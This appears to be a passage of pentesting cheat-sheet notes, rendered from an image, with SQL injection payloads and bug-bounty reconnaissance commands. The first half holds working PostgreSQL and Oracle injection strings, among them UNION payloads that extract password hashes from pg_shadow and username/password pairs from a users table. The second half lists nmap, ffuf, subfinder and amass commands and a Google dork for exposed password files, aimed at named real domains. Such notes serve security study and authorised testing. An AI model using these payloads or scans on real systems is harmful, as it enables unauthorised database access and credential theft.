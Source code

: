 ```bash

# Use cast to find out columns for each table
cast((SELECT column_name FROM information_schema.columns WHERE table_name='data_table' LIMIT 1 OFFSET data_offset) as int)

# Use cast to find out row for each column
cast((SELECT data_column FROM data_table LIMIT 1 OFFSET data_offset) as int)

# Get current user's password!
' union select 'd', cast((SELECT concat('DATABASE: ',passwd) FROM pg_shadow limit 1 offset 1) as int), 1, 'd', 'd', null -- //
```

- ORACLE SQLi injection: Union Select
```bash
# On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called dual which can be used for this purpose.
' union select null,banner from v$version--

# You can retrieve multiple values together within this single column by concatenating the values together.
' UNION SELECT username || '~' || password FROM users--

```

## Bug Bounty
### How to run NMAP safely?
```bash
# -F: top 100 ports
# -T1 or -T2: slow
nmap -A -F -T2 10.10.10.10 -v
```

### How to run FFUF safely?
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://tenet.htb/FUZZ -p 1 
# -p delay in between requests
```

### How should we fingerprint?
1. Technology Lookup: ex) BuiltWith, Wappalyzer, curl, securityhaeder.com(instead of curl)
```bash
curl -I https://azena.com
curl -I -L https://azena.com #This will allow redirect
```
2. Directory Enumeration: ffuf, dirb, dirbuster
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://azena.com/FUZZ
```
3. Subdomain Enumeration: google, crt.sh, subfinder
```bash
# GOOGLE
site:azena.com -www -store
site:tesla.com filetype:pdf password
# crt.sh
%.azena.com
# subfinder
subfinder -d azena.com
subfinder -d azena.com -o result.txt
# assetfinder(only grep tesla.com and sort this uniquly)
assetfinder tesla.com | grep tesla.com | sort -u > tesla.txt
#amass
amass enum -d tesla.com > tesla.com
```